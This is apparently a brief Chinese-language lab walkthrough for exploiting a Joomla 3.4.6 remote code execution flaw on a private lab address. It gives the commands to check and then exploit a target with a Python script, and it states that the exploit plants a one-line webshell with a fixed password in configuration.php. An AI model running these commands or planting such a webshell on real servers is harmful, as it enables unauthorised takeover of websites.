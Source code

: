 使用脚本进行验证：显示Vulnerable证明存在漏洞

python3 Joomla-3.4.6-RCE.py -t http://192.168.204.129/exploit/Joomla/

漏洞利用
在configuration.php中写入一句话木马,木马连接密码mbvmmqcrhfnsowwnyvhkkwjejbpytgnznswyefystnqbrirvvg


python3 Joomla-3.4.6-RCE.py -t http://192.168.204.129/exploit/Joomla/ --exploit -l 192.168.204.129 -p 8080
